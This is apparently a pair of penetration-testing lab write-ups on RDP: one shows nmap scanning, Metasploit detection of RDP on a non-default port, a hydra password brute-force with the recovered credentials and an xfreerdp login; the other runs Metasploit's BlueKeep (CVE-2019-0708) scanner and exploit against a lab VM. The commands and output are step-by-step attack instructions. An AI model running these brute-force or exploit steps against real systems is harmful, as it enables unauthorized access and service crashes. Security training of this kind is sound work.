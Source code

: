# 🔬RDP

## Lab 1

> 🔬 [Windows: Insecure RDP Service](https://attackdefense.com/challengedetails?cid=1957)
>
> * Target IP: `10.4.18.131`
> * **RDP** exploitation
> * Dictionaries to use:
>   * `/usr/share/metasploit-framework/data/wordlists/common_users.txt`
>   * `/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt`

### Enumeration

```bash
nmap -sV 10.0.17.61
```

```bash
Starting Nmap 7.70 ( https://nmap.org ) at 2024-06-30 17:54 IST
Nmap scan report for 10.0.17.61
Host is up (0.0021s latency).
Not shown: 992 closed ports
PORT      STATE SERVICE        VERSION
135/tcp   open  msrpc          Microsoft Windows RPC
139/tcp   open  netbios-ssn    Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds   Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3333/tcp  open  ssl/dec-notes?
49152/tcp open  msrpc          Microsoft Windows RPC
49153/tcp open  msrpc          Microsoft Windows RPC
49154/tcp open  msrpc          Microsoft Windows RPC
49155/tcp open  msrpc          Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 109.33 seconds
```

{% hint style="info" %}
RDP can be configured to run on another port instead of the default port
{% endhint %}

> Port 3333 instead of port 3339 is open but no service due to port is not assigned to any services.

* Use Metasploit [rdp\_scanner](https://www.rapid7.com/db/modules/auxiliary/scanner/rdp/rdp\_scanner/) module to check if port `3333` is running RDP.
* Useful when performing black-box penetration test

```bash
msf5 > search rdp_scanner

Matching Modules
================

   #  Name                               Disclosure Date  Rank    Check  Description
   -  ----                               ---------------  ----    -----  -----------
   0  auxiliary/scanner/rdp/rdp_scanner                   normal  No     Identify endpoints speaking the Remote Desktop Protocol (RDP)
```

<pre class="language-bash"><code class="lang-bash">msf5 > use auxiliary/scanner/rdp/rdp_scanner
msf5 auxiliary(scanner/rdp/rdp_scanner) > set RHOSTS 10.0.17.61
<strong>msf5 auxiliary(scanner/rdp/rdp_scanner) > set RPORT 3333 # default port 3389
</strong>msf5 auxiliary(scanner/rdp/rdp_scanner) > run
</code></pre>

<figure><img src="../../../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>RDP Detected</p></figcaption></figure>

> The RDP is running on target port `3333`

### RDP Brute Force

* Use hydra to find the valid `username` and `password` by using the dictionary wordlists

```bash
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_password.txt
```

{% hint style="warning" %}
Make sure to adjust the speed when performing the real world penetration test using `-t <default 16>` to prevent Denial of Services (DOS) or crashing the `Windows` system.
{% endhint %}

```bash
sts/unix_passwords.txt rdp://10.0.17.61 -s 3333
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-06-30 18:12:55
[WARNING] rdp servers often don't like many connections, use -t 1 or -t 4 to reduce the number of parallel connections and -W 1 or -W 3 to wait between connection to allow the server to recover
[INFO] Reduced number of tasks to 4 (rdp does not like many parallel connections)
[WARNING] the rdp module is experimental. Please test, report - and if possible, fix.
[DATA] max 4 tasks per 1 server, overall 4 tasks, 7063 login tries (l:7/p:1009), ~1766 tries per task
[DATA] attacking rdp://10.0.17.61:3333/
[3333][rdp] host: 10.0.17.61   login: sysadmin   password: samantha
[ERROR] freerdp: The connection failed to establish.
[3333][rdp] host: 10.0.17.61   login: demo   password: victoria
[ERROR] freerdp: The connection failed to establish.
[3333][rdp] host: 10.0.17.61   login: auditor   password: elizabeth
[ERROR] freerdp: The connection failed to establish.
[3333][rdp] host: 10.0.17.61   login: administrator   password: qwertyuiop
[ERROR] freerdp: The connection failed to establish.
1 of 1 target successfully completed, 4 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-06-30 18:13:35
```

<figure><img src="../../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* In this case, `freerdp` cannot be used in this lab, the only RDP client that can be used is `xfreerdp`.

```bash
xfreerdp  /u:Administrator /p:qwertyuiop /v:10.0.17.61:3333
```

<figure><img src="../../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
Flag: `port-number-3333`
{% endhint %}

***

## Lab 2 - Blue Keep

> 🔬 **Extra Lab**
>
> Setup a vulnerable _Windows 2008 R2 Virtual Machine_ and connected it to the same network of the Kali virtual machine.
>
> * Host system: `Kali Linux`
> * Target system: `Windows Server 2008 R2`&#x20;
> * Target IP: `192.168.42.139`&#x20;
> * Local IP: `192.168.42.132`
> * Exploitation tool:
> * Vulnerability: [CVE-2019-0708 - BlueKeep](https://nvd.nist.gov/vuln/detail/CVE-2019-0708)

{% hint style="danger" %}
Targeting Kernel space memory and apps can cause system crashes.
{% endhint %}

### Enumeration

```bash
nmap -sV -sC 192.168.42.139 -Pn   
```

```bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-04 22:36 +08
Nmap scan report for 192.168.42.139
Host is up (0.0029s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT      STATE SERVICE            VERSION
135/tcp   open  msrpc              Microsoft Windows RPC
445/tcp   open  microsoft-ds       Windows Server 2008 R2 Standard 7600 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server?
| rdp-ntlm-info: 
|   Target_Name: WIN-8M9K4MEH6MB
|   NetBIOS_Domain_Name: WIN-8M9K4MEH6MB
|   NetBIOS_Computer_Name: WIN-8M9K4MEH6MB
|   DNS_Domain_Name: WIN-8M9K4MEH6MB
|   DNS_Computer_Name: WIN-8M9K4MEH6MB
|   Product_Version: 6.1.7600
|_  System_Time: 2024-07-04T14:37:17+00:00
| ssl-cert: Subject: commonName=WIN-8M9K4MEH6MB
| Not valid before: 2024-07-03T14:36:09
|_Not valid after:  2025-01-02T14:36:09
|_ssl-date: 2024-07-04T14:37:57+00:00; 0s from scanner time.
49154/tcp open  msrpc              Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

<figure><img src="../../../../../.gitbook/assets/image (23) (1).png" alt=""><figcaption></figcaption></figure>

> RDP port 3389 is opened.

* Run `metasploit` auxiliary module to check the target expose to the BlueKeep vulnerability or not.

```bash
msfconsole
msf6 > search bluekeep
msf6 > use 0
msf6 auxiliary(scanner/rdp/cve_2019_0708_bluekeep) > set RHOSTS 192.168.42.139
msf6 auxiliary(scanner/rdp/cve_2019_0708_bluekeep) > run
```

<figure><img src="../../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

> The target is vulnerable

### Exploitation

```bash
msf6 > use 3
msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > show targets
msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > set target 5
msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > set RHOSTS 192.168.42.139
msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > exploit
```

<figure><img src="../../../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

> And boom it crashed&#x20;







